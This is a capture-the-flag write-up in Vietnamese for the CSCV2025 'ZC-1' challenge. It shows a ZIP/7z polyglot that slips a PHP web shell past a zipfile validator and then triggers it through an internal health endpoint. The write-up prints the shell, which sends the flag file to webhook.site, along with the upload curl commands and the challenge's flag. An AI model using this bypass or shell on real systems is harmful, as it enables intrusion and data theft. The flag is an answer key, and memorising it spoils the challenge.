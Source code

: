 ```yaml
---
title: ZC-1 CHALLENGE

---
```


# ZC-1 CHALLENGE
# MTA_SUPPORT

![image](https://hackmd.io/_uploads/ry_nOA4Cxl.png)
challenge file: [public](https://drive.google.com/file/d/1PprDuWV1u11dnH1mf_Bc70La8CpFZ7NR/view)

### IDEA: Polyglot ZIP→7z + kích hoạt qua “health” nội bộ
Mục tiêu: Upload 1 file vượt qua kiểm tra `ZIP safety` của `service 1` nhưng buộc `service 2` giải nén và chạy shell.php, rồi dùng endpoint health để gọi file này để lấy flag CSCV2025{}.

Main idea: Tạo polyglot: nhìn như zip hợp lệ với zipfile (Service 1), nhưng lại được 7-Zip (Service 2) đọc như 7z để giải nén shell.php.

Trigger:` GET /gateway/health?module=<path>` trên Service 1 sẽ gọi nội bộ đến `http://app2<module>` (kiểu SSRF nhẹ).

Kết quả: shell.php đi vào folder web served của app2 (**root** `/var/www/html/storage/<user_id>/shell.php`), ta kích hoạt qua health và nhận flag.
    
### Phân tích challenge
- Service-1 (app1, Django) — có cổng http://localhost:8000

- Endpoint:

  - `POST /gateway/user/` **(đăng ký)**

  - `POST /auth/token/` **(JWT)**

  - `POST /gateway/transport/` **(upload)** → xác thực ZIP bằng Python's zipfile 

  - `GET /gateway/health?module=...` → gọi nội bộ http://app2{module}, trả “OK/ERR”

- Service 2 (app2, PHP + Apache) — không lộ cổng ra ngoài

  - Giải nén bằng Archive7z (wrapper gọi 7z) vào /var/www/html/storage/<user_id>/

Note: `zipfile` (Service 1) đọc từ cuối file (central directory) → thấy ZIP “sạch”; `7z` (Service 2) nhận **header 7z** ở đầu → giải nén `shell.php`. Đây là xung đột parser cho phép **polyglot** qua cửa.

### Trình tự khai thác
* Tạo polyglot: ZIP (benign) + 7z payload chứa `shell.php`.
* Lấy JWT để upload/health.
* Upload polyglot qua `POST /gateway/transport/` (Service 1 chấp nhận).
* Service 2 dùng 7-Zip giải nén, thả `shell.php` vào thư mục phục vụ web.
* Lấy `user_id` từ payload JWT.
* Gọi `GET /gateway/health?module=/storage/<user_id>/shell.php`.
* Lấy flag.

## Khai thác
### Khởi chạy docker
```
docker compose up -d
app1: http://localhost:8000
```

### Tạo polyglot ZIP→7z
- Tạo web shell PHP, lưu thành `shell.php`
```
<?php
$flag = @file_get_contents('/flag.txt');
@file_get_contents('https://webhook.site/YOUR-UNIQUE-ID?f='.urlencode($flag));
header('Content-Type: text/plain');
echo $flag ?: "no-flag";
```

### Tạo payload 7z chứa `shell.php`

`7z a -t7z payload.7z shell.php`

### Tạo carrier.zip “hợp lệ” (chứa file hợp lệ theo bộ lọc ALLOW_STORAGE_FILE)
```
echo benign > benign.txt
zip carrier.zip benign.txt
```

### Gộp thành polyglot

```
truepolyglot zipany --payload1file payload.7z --zipfile carrier.zip polyglot.zip
```

### Lấy JWT và user_id

Đăng ký
```
curl -s http://localhost:8000/gateway/user/ -X POST \
  -H "Content-Type: application/json" \
  -d '{"username":"msec","password":"msec","email":"abc@gmail.com"}'
```

Lấy token
```
TOKENS=$(curl -s http://localhost:8000/auth/token/ -X POST \
  -H "Content-Type: application/json" \
  -d '{"username":"msec","password":"msec"}')
ACCESS=$(echo "$TOKENS" | python3 -c 'import sys,json; print(json.load(sys.stdin)["access"])')
echo "$ACCESS"
```

JWT:
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbl90eXBlIjoiYWNjZXNzIiwiZXhwIjoxNzYxMDU0MTE1LCJpYXQiOjE3NjEwNTM4MTUsImp0aSI6IjQ4YzE4YmRmYzgwNTRlNGU4N2ZmMDFiNzdjZTU0YmI1IiwidXNlcl9pZCI6IjBjZjQ1MzJhLWI1MGYtNDcxZi05NWE4LTJjZmIxMzEyMTgxNCJ9.mmsJLg7LvRLVb1tRxwOQRXNFs0_94m3QXzsSNWH7BAo

Sau khi lấy được JWT thì truy cập vào [cyberchef](https://gchq.github.io/CyberChef/) để base64 JWT để lấy user_id
![image](https://hackmd.io/_uploads/SJjeT-BRgx.png)

`user_id: 0cf4532a-b50f-471f-95a8-2cfb13121814`

### Upload polyglot
```
curl -s http://localhost:8000/gateway/transport/ \
  -X POST \
  -H "Authorization: Bearer <JWT>" \
  -F "file=@polyglot.zip"
```
![image](https://hackmd.io/_uploads/S1ltTbrRgg.png)

Nếu hiện "OK" tức là đã upload thành công
### Xác định vị trí file
Vào app2:
```
docker compose exec app2 bash
cd /var/www/html
find / -type f -name shell.php 2>/dev/null | head
```
![image](https://hackmd.io/_uploads/SJYna-HAge.png)

- Tiếp theo, tìm xem có thư mực `storage/<user_id>` và có file `shell.php` không
- Dùng lệnh `ls -la` để liệt kê ra các **file/folder** đang có
![image](https://hackmd.io/_uploads/ry9GAZBCle.png)

- Ta thấy có folder `storage`
- Sau đó, dùng lệnh `ls -la /var/www/html/storage || true` để xem folder storage có user_id của tài khoản không
![image](https://hackmd.io/_uploads/Sy5nAZS0gg.png)
- Ta thấy có folder `0cf4532a-b50f-471f-95a8-2cfb13121814` (`user_id` của tài khoản với `username=msec`)
- Tiếp tục truy cập tới `/var/www/html/storage/0cf4532a-b50f-471f-95a8-2cfb13121814`
![image](https://hackmd.io/_uploads/Bke_kGHAgl.png)

  Đã thấy được file shell.php
  
 - Gọi tới nội bộ xem web server có serve được không bằng cách:
  `curl -i http://localhost/storage/user_id/shell.php` (ở đây **user_id** = `0cf4532a-b50f-471f-95a8-2cfb13121814`)
 ![image](https://hackmd.io/_uploads/Hy4llMBAgx.png)

  - Ta đã thấy được flag CSCV2025{}



**FLAG: CSCV2025{Z1p_z1P_21p_Ca7_c47_c@t__}**
